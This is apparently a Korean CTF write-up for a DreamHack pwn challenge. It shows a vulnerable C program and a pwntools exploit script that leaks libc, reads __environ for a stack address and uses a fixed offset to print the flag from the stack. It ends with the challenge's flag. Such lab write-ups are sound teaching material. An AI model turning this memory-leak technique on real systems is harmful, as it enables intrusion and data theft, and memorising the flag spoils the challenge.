



# S4 · __environ

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 코드

```c
// Name: environ.c
void read_file() {
  char file_buf[4096];
  int fd = open("./flag", O_RDONLY);
  read(fd, file_buf, sizeof(file_buf) - 1);   // 플래그를 스택 버퍼에 읽어 둠
  close(fd);
}

int main() {
  char buf[1024];
  long addr;
  int idx;

  init();
  read_file();

  printf("stdout: %p\n", stdout);              // ① libc 주소 leak

  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("Addr: ");
        scanf("%ld", &addr);
        printf("%s", (char *)addr);            // ② 임의 주소 읽기
        break;
    }
  }
}
```

문제가 주는 수단은 둘이다.
- **①** `printf("stdout: %p")` — stdout 주소를 흘려 libc base를 구하는 leak
- **②** `printf("%s", (char *)addr)` — 준 주소가 **가리키는 곳의 문자열을 출력**하는 임의 주소 읽기

핵심은 플래그가 `read_file`의 지역 버퍼 `file_buf`, 즉 **스택**에 읽혀 있다는 점이다. `file_buf` 주소만 알아내 ②에 넣으면 플래그가 출력된다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 21170

p = remote(HOST, PORT)
elf = ELF('./libc.so.6')

# 1) stdout leak -> libc base -> __environ 변수 주소
p.recvuntil(b': ')
stdout = int(p.recvuntil(b'\n'), 16)
libc_base    = stdout - elf.symbols['_IO_2_1_stdout_']
libc_environ = libc_base + elf.symbols['__environ']

# 2) __environ 읽어서 스택 주소 획득
p.sendlineafter(b'>', b'1')
p.sendlineafter(b':', str(libc_environ).encode())
p.recv(1)                                       # "Addr: " 콜론 뒤 공백 버리기
stack_environ = u64(p.recv(6).ljust(8, b'\x00'))
file_content  = stack_environ - 0x1568          # file_buf 주소 역산

# 3) file_buf 읽어서 플래그 출력
p.sendlineafter(b'>', b'1')
p.sendlineafter(b':', str(file_content).encode())
p.recv(1)
print(p.recvline().decode())
```

### 4. 실행 흐름

```text
① stdout 출력      → libc_base = stdout - _IO_2_1_stdout_ offset
                   → libc_environ = libc_base + __environ offset
② libc_environ 읽기 → %s가 __environ에 든 값(스택 주소)을 출력 → stack_environ
③ file_content = stack_environ - 0x1568   (= file_buf 주소)
④ file_content 읽기 → %s가 file_buf의 플래그를 출력
```

②·④ 모두 같은 임의 읽기(`printf("%s", addr)`)다. `%s`는 준 주소 숫자를 찍는 게 아니라, **그 주소가 가리키는 곳의 문자열**을 널까지 출력한다. 그래서 읽고 싶은 곳의 주소만 정확히 넣으면 그 안의 내용이 나온다.

### 5. 왜 environ을 쓰나

플래그는 **스택**(`file_buf`)에 있는데, 임의 읽기는 있어도 넣을 **스택 주소**를 모른다. ASLR로 매 실행 스택 위치가 바뀌고, stdout leak으로 얻은 건 libc 주소라 스택과는 베이스가 따로다.

`__environ`은 libc 안의 변수인데 그 **값이 스택을 가리킨다**(환경변수 배열이 스택에 있음). 그래서 `__environ`을 읽으면 살아있는 스택 주소 하나가 나오고, 이게 libc leak에서 스택으로 넘어가는 유일한 연결 고리다.

### 6. 오프셋 0x1568

`__environ`이 가리키는 스택 주소와 `file_buf` 사이 거리를 gdb로 한 번 잰다. `read_file`에서 `read` 직전 bp를 걸면 `rcx`에 `file_buf` 주소가 들어 있다.

```text
pwndbg> x/gx $rcx          # rcx = file_buf 주소
0x7fffffffd130: 0x0...0
pwndbg> p/x __environ      # __environ 값 = 스택 주소
$1 = 0x7fffffffe698
pwndbg> p/x 0x7fffffffe698 - 0x7fffffffd130
$2 = 0x1568
```

`file_buf`가 environ보다 `0x1568` 아래이므로 `file_buf = stack_environ - 0x1568`이다. ASLR은 스택을 통째로 옮길 뿐 이 거리는 변하지 않아, 원격에서도 같은 값을 쓴다.

### 7. 실행 결과

<p align="center">
  
</p>

```text
DH{dd7e95bf7ea608017206757444a1ff168720e0d18ded2aef99558d00e063b8a1}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출한다.
